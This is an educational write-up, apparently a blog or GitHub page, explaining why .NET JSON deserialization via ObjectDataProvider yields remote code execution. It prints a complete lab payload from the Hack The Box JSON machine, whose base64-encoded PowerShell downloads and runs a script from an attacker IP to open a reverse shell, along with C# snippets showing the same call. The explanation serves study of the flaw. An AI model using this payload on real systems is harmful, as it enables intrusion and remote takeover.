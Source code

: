  # Deserialization
 ## Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understood the concept behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out and the object has been instantiated.

Hopefully this will help others to understand why code execution is achieved.

The questions I am going to try and answer are:

- What is a deserialization vulnerability?
- What is an `ObjectDataProvider`?
- How does the PowerShell script get executed automatically?

I am not going to discuss the code of a deserialization vulnerability as that has been done many times before... maybe instantiation has too... I don't really know... or care!

## Deserialization Vulnerabilities

According to [OWASP (2017)](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) 'the impact of deserialization flaws cannot be overstated. These flaws can lead to remote code execution attacks, one of the most serious attacks possible'.

Serialization is the operation of taking an object or objects in memory and encoding them into a stream of bytes that can be stored (for example to a datase or file) or transmit (for example over a network). Deserialization is the opposite of serialization, a stream of bytes is taken and used to reconstruct an object or objects in memory. Examples of serialization outputs are XML and JSON.

Serialization can be very useful for transmitting objects over a network where two discontiguous systems can effectively contain the same state in terms of object instantiations.

<img width="273" alt="Screenshot 2022-06-06 at 19 05 06" src="https://user-images.githubusercontent.com/42491100/172219463-bc6dcf9e-e317-470d-abbc-a70902cfea64.png">

If the target application has a deserialization vulnerability then it may be possible to submit unsanitized JSON/XML to the web application and trigger code execution.

## An Example - JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. The HTTP POST payload used to exploit JSON is shown below:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

When the web application deserializes the JSON object it spawns a reverse shell, but why?

## ObjectDataProvider

The `ObjectDataProvider` class wraps and creates an object that you can use as a binding source. A binding source is used to bind underlying data to a form control. We aren't too interested in that, what we are interested in is that it can act as a wrapper to instantiate a class and call a method in the instantiated object.

### PowerShell Execution

Our goal is to get PowerShell execution on the target. In C# we can do that with the following code:

```csharp
Process p = new Process();
p.Start("cmd", "/c powershell.exe  -exec bypass -enc ...");
```

Unfortunately we cannot do this from a web browser. What we can do is abuse the vulnerable JSON deserializer to instantiate an `ObjectDataProvider` which in turn will instantiate a `Process` and call the `Start()` method automatically upon instantiation. In C# it looks like this:

```csharp
ObjectDataProvider provider = new ObjectDataProvider();

provider.MethodName = "Start";
provider.MethodParameters.Add("cmd");
provider.MethodParameters.Add("/c powershell.exe  -exec bypass -enc ...");
provider.ObjectInstance = new Process();
```

The JSON deserializer creates these objects as part of the deserialization process and the `ObjectDataProvider` does its magic and calls the `Start()` method on our behalf!
